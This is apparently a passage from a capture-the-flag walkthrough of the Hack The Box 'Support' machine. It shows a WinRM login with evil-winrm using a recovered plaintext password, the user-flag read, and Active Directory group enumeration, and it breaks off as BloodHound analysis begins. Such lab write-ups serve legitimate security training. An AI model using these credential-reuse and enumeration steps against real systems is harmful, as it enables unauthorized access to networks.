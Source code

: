 <div class="bg-amber-100 dark:bg-amber-900/20 border-l-4 border-amber-500 p-4 my-4 rounded-r-lg">
    <p class="text-amber-800 dark:text-amber-200">
        <i class="fas fa-exclamation-triangle mr-2 text-amber-500"></i>
        <strong>Plaintext password found!</strong> Remote Management Users group allows WinRM connection.
    </p>
</div>


## 💻 Phase 6 — Initial WinRM Access

Connection:

```bash
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-terminal mr-2 text-green-500"></i>
        Shell obtained as support@support.htb!
    </p>
</div>

User flag:

```powershell
type C:\Users\Support\Desktop\user.txt
```


## 🧭 Phase 7 — Domain Enumeration

List domain:

```powershell
Get-ADDomain
```

User groups:

```powershell
whoami /groups
```

Notable result: **Shared Support Accounts** (non-standard group)

<div class="bg-amber-100 dark:bg-amber-900/20 border-l-4 border-amber-500 p-4 my-4 rounded-r-lg">
    <p class="text-amber-800 dark:text-amber-200">
        <i class="fas fa-search mr-2 text-amber-500"></i>
        <strong>Hypothesis:</strong> This custom group potentially holds elevated privileges on the domain.
    </p>
</div>


## 🕸️ Phase 8 — BloodHound Analysis

### Start Neo4j and BloodHound
